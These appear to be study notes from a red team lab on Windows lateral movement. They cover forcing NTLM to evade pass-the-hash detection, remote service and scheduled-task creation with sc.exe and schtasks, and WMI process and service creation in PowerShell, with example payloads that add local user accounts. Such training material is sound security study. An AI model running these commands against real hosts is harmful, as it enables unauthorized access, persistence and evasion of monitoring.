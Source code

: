  - There is quite a difference, and it boils down to the authentication method being used. When we provide the hostname, network authentication will attempt first to perform Kerberos authentication. Since Kerberos authentication uses hostnames embedded in the tickets, if we provide the IP instead, we can force the authentication type to be NTLM. While on the surface, this does not matter to us right now, it is good to understand these slight differences since they can allow you to remain more stealthy during a Red team assessment. In some instances, organisations will be monitoring for OverPass- and Pass-The-Hash Attacks. Forcing NTLM authentication is a good trick to have in the book to avoid detection in these cases.
- To run WinRM you need group membership of Remote Managamenet Users. 
- We can create services remotely using sc: Ports: 135/TCP 445/TCP 139/TCP (borth RPC over SMB). It requires Group Memberships. 
- Clue: If we configure a Windows service to run any application, it will still execute it and fail afterwards.
- Syntax: `sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto` and `sc.exe \\TARGET start THMservice`.
- To create a scheduled task remotely we can use `schtasks`
- Syntax: `schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 ` `schtasks /s TARGET /run /TN "THMtask1"`
- WMI allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways, which we'll discuss.
- To establish WMI session from powershell we can use: 
```powershell 
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```
- `New-Cimsession` is used to configure WMI session. 
- Remote proccess Creation using WMI: Ports: 135/5986. Administartor previlidge required.  
```powershell
	$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

	Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}
```
- There's no output here but the process will be created silently. 
- Creating services remotely with WMI. Ports: 135/5985. Administartor previlidge required

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```
- We can start the service using: 

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```
